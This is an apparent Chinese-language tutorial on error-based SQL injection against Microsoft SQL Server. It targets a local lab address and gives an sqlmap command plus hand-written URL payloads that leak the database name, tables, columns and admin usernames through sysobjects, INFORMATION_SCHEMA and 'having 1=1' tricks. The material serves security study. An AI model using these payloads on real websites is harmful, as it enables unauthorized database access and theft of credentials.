







# 0x00 第一个注入

建议大家可以本地搭建后用sqlmap注入查看他的注入语句

```
sqlmap -u "http://192.168.130.137/1.aspx?id=1"  --is-dba -v3

```

判断当前数据库

```
http://192.168.130.137/1.aspx?id=1'and db_name()>0;--

```




爆表名

```
http://192.168.130.137/1.aspx?id=1' and 1=(select top 1 name from sysobjects where xtype='u' and name !='info');--

```



爆列名

```
http://192.168.130.137/1.aspx?id=1' and 1=(select top 1 name from syscolumns where id=(select id from sysobjects where name = 'admin') and name<>'id');--

```



爆数据


```
http://192.168.130.137/1.aspx?id=1' and 1=(select top 1 username from admin);--

```



因为mssql没有limit 所以只能用top 加上后面的判断来遍历数据


# 0x02 其他用法

当然查询数据库的所有表你还可以使用 `INFORMATION_SCHEMA.TABLES` 

```
select * from INFORMATION_SCHEMA.TABLES

select * from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME='admin'

http://192.168.130.137/1.aspx?id=1 and 1=(select top 1 table_name from information_schema.tables
);--

```




我们要判断当前表名和列名 也可以使用 `having 1=1` 和 `group by`

```
http://192.168.130.137/1.aspx?id=1 having 1=1

```



爆出当前表和字段

```
http://192.168.130.137/1.aspx?id=1 group by info.id,info.name having 1=1

```



爆出所有的字段


# 0x03 文末


#### 本文如有错误，请及时提醒，避免误导他人

BY 404

